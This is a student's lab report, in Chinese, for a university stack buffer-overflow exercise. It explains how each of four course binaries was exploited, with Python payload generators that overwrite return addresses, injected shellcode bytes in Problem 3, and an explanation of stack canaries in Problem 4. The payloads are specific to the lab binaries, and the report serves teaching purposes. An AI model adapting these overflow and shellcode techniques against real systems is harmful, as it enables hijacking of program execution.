




# 栈溢出攻击实验

姓名：朱照宇
学号：2024201532

## 题目解决思路

### Problem 1: 
- **分析**：通过反编译工具可以看到`“Yes!I like ICS!”`这句话在在`func1`的`0x402004`处，而在`main`函数中我们看到调用了`func`函数，我们很自然想到将`func`函数的返回地址改为`func1`的起始地址`0x401216`。通过对`func1`的分析得，其使用了8byte的buffer,旧的`%ebp`占8个byte，故我们用A填充这16个字节，然后将之后的返回地址改成`0x402004`。
- **解决方案**：
```python
padding = b"A" * 16
func1_address = b"\x16\x12\x40\x00\x00\x00\x00\x00" 
payload = padding+ func1_address
with open("ans1.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans1.txt")
```
- **结果**：


### Problem 2:
- **分析**：`“Yes!I like ICS!”`这句话在在`func1`的`0xde8(%rip)`处，其他步骤都相同，但我们不能和Problem1一样直接传入`func2`的起始地址，因为func中有一个判断语句`cmpl $0x3f8,-0x4(%rbp)`,如果不满足，会直接打印`"I think that you should give me the rig"`。所以我们要直接将返回地址填成`0x40124c`来避免判断语句，直接跳到打印目标语句处。
- **解决方案**：
```python3
padding = b"A" * 16
func1_address = b"\x4c\x12\x40\x00\x00\x00\x00\x00"  
payload = padding+ func1_address
with open("ans2.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans2.txt")
```
- **结果**：


### Problem 3: 
- **分析**：按照前面的思路，我们发现这个problem的`func`的buffer为0x20大小，即32byte，如果我们像Problem 1一样做，会被`cmpl $0x72,-0x44(%rbp)`所阻止；如果我们像Problem 2一样做，我们跳过了`func1`的`push %rbp`步骤，这会导致后来依赖于`%rbp`位置的指令会错乱(如`mov %rax,-0x40(%rbp)`)，从而导致程序崩溃。
在不关闭栈地址随机化的情况下，在用ida反编译时，发现了一个函数`jmp_xs`,旁边还有`#403510 <saved_rsp>`的注释，仔细阅读了该函数，发现该函数功能是跳转到`saved_rsp+0x10`字节所指向的地址。而这个位置刚好是我们需要的`%rbp-0x20`的位置，所以我们可以依靠这个函数摆脱栈地址随机化带来的问题。
然后我们需要构造一段代码，解决`cmpl $0x72,-0x44(%rbp)`的问题,并跳转到`func1`函数。
```asm
mov $0x72,%edi
mov $0x401216,%eax
call *%rax
```
编译对应`bf 72 00 00 00 b8 16 12 40 00 ff d0`。所以我们先填入这段二进制数字，再填入28个A（buffer剩余大小32-12=20byte，旧`%rbp`为8byte，共28byte）,最后将返回地址修改为`0x401334`(`jmp_xs地址`)。

- **解决方案**：
```python
code = b"\xbf\x72\x00\x00\x00\xb8\x16\x12\x40\x00\xff\xd0"
padding = b"A"*28
ret_addr = b"\x34\x13\x40\x00\x00\x00\x00\x00" #address of jmp_xs
payload = code+padding+ret_addr
with open("ans3.txt","wb") as f:
    f.write(payload)
print("Payload written to ans3.txt")
```
- **结果**：

### Problem 4: 
- **分析**：Canary是一种缓冲区溢出检测机制。它通过在函数序言阶段于栈帧的局部变量与控制流信息（如返回地址、保存的寄存器等）之间嵌入一个随机生成的引用值，并在函数尾部校验该值是否完整。编译器会在函数头部自动插入 mov %fs:0x28, %rax，将线程控制块中的随机值压入栈中。在执行ret指令前，程序会对比当前栈位置的值与原始副本。若存在差异，程序将终止进程，阻断攻击载荷（Payload）对执行流的劫持。
在本Problem中，`func`函数中先放入金丝雀，将%fs寄存器指向的地址偏移0x28的内容加放到`%rbp-8`的位置上：
```asm
    136c:	64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax
    1373:	00 00 
    1375:	48 89 45 f8          	mov    %rax,-0x8(%rbp)
```
在返回前，比较金丝雀值，判断与原值相比，有没有修改，从而判断有没有发生缓冲区溢出。
```asm
    140a:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
    140e:	64 48 2b 04 25 28 00 	sub    %fs:0x28,%rax
    1415:	00 00 
    1417:	74 05                	je     141e <func+0xc1>
    1419:	e8 b2 fc ff ff       	call   10d0 <__stack_chk_fail@plt>
```
这个Problem只要输入一个正确的money即可,`main`函数调用`func`,`func`中有`cmpl $0xffffffff,-0xc(%rbp)`,根据这个我们只要输入-1即可。前面的两个字符串填什么都可以。

- **解决方案**：Zhuzhaoyu  no  -1
- **结果**：

## 思考与总结
- 感觉实验设计还是很好的，尤其是Problem1到Problem3一步步更新的攻击方法，这个过程也是思考我原来的方法为什么不行的过程，让我对各种防止缓冲区溢出的方法的优劣有着更深的理解。也让我对程序调用的过程与栈上的空间分配有着更深的了解(虽然现在了解有点晚)。
- 难度上来说，感觉除了Problem3需要一点时间，其他都是比较顺畅的，难度在所有实验中感觉中等吧。
- 但我建议这个实验放在bomblab的后面布置，这样我们不是在期末之后亡羊补牢，不会在期末的缓冲区溢出大题中惨败。

## 参考资料

没有参考资料，但感谢Gemini老师的耐心指导。
